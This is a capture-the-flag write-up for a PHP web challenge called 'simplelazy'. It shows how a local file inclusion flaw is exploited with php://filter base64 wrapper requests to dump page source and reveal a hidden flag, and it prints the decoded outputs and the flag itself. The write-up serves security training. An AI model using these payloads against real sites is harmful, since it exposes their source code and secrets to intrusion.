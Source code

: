# simplelazy
> Category: Web
> 
> TLDR:
> 
> Exploit LFI vulnerabilities to create RCE attack
> 
> Use PHP wrapper php://filter to read PHP source code 
## Solution
In this challenge, a site is given, namely https://simplelazy.ctf.rawsec.com/. 
![alt](images/Capture.PNG)

Link 1 
```bash
Linux 41e86d6dc4fd 5.15.0-92-generic #102-Ubuntu SMP Wed Jan 10 09:33:48 UTC 2024 x86_64 GNU/Linux
```
Link 2
```
PRETTY_NAME="Debian GNU/Linux 12 (bookworm)"
NAME="Debian GNU/Linux"
VERSION_ID="12"
VERSION="12 (bookworm)"
VERSION_CODENAME=bookworm
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```
Link 3
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Fatal error: Uncaught Error: Undefined constant "esdasxasdcessxsadx" in /var/www/html/page3.php:7 Stack trace: #0 /var/www/html/index.php(72): include() #1 {main} thrown in /var/www/html/page3.php on line 7
```
XSS payload seems useless
![alt](images/Capture(1).PNG)

Now let’s see if we could see the source code of any page by utilizing a wrapper in our payload, specifically php:// wrapper. We’ll use: ```/index.php?page=php://filter/convert.base64-encode/resource=page1```

```bash
PD9waHANCg0KZWNobyAnPHByZSBzdHlsZT0iY29sb3I6ICNmZmY7Ij4nOw0Kc3lzdGVtKCd1bmFtZSAtYScpOw0KZWNobyAnPC9wcmU+JzsNCj8+

<?php

echo '<pre style="color: #fff;">';
system('uname -a');
echo '</pre>';
?>
```

```/index.php?page=php://filter/convert.base64-encode/resource=page2```

```bash
PD9waHANCg0KZWNobyAnPHByZSBzdHlsZT0iY29sb3I6ICNmZmY7Ij4nOw0Kc3lzdGVtKCdjYXQgL2V0Yy9vcy1yZWxlYXNlJyk7DQplY2hvICc8L3ByZT4nOw0KDQoNCj8+

<?php

echo '<pre style="color: #fff;">';
system('cat /etc/os-release');
echo '</pre>';
?>
```

```/index.php?page=php://filter/convert.base64-encode/resource=page3```
```bash
PD9waHAKCmVjaG8gJzxwcmUgc3R5bGU9ImNvbG9yOiAjZmZmOyI+JzsKc3lzdGVtKCdpZCcpOwplY2hvICc8L3ByZT4nOwoKaW5jbHVkZShlc2Rhc3hhc2RjZXNzeHNhZHgucGhwKTsKCj8+Cg==

<?php

echo '<pre style="color: #fff;">';
system('id');
echo '</pre>';

include(esdasxasdcessxsadx.php);

?>

```
```/index.php?page=php://filter/convert.base64-encode/resource=esdasxasdcessxsadx```
```bash
PD9waHAKCi8vUldTQ3tTMU1QTDNfNE5EX0w0Wll9ICRmbGFnLVthc2Rhc2Rhc2RdCgo/Pgo=

<?php

//RWSC{S1MPL3_4ND_L4ZY} $flag-[asdasdasd]

?>
```

## Flag
The flag for this challenge is ```RWSC{S1MPL3_4ND_L4ZY}```
